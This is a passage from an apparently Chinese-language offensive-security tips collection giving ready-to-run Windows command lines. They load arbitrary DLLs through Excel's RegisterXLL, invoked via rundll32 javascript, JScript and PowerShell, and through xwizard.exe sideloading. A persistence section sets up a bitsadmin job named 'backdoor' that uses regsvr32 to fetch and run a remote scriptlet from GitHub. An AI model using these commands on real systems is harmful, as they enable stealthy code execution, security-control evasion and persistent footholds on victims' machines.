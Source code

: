 #### 方法5：Excel.Application object's RegisterXLL() method

前提：已安装Microsoft Office软件

1.rundll32

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";x=new%20ActiveXObject('Excel.Application');x.RegisterXLL('C:\\test\\messagebox.dll');this.close();
```

2.js

```
var excel = new ActiveXObject("Excel.Application");
excel.RegisterXLL("C:\\test\\messagebox.dll");
```

3.powershell

```
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL("C:\test\messagebox.dll")
```

参考：

[《Use Excel.Application object's RegisterXLL() method to load dll》](https://3gstudent.github.io/3gstudent.github.io/Use-Excel.Application-object's-RegisterXLL()-method-to-load-dll/)

#### 方法6：xwizard.exe

复制%windir%\system32\下的xwizard.exe至新目录C:\x

将msg.dll重命名为xwizards.dll，保存在C:\x

命令行执行：

```
xwizard processXMLFile 1.txt
```

成功加载C:\x\xwizards.dll

参考：

[《Use xwizard.exe to load dll》](https://3gstudent.github.io/3gstudent.github.io/Use-xwizard.exe-to-load-dll/)

---

### Tips 30. Windows Persistence

#### 方法1：bitsadmin

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```
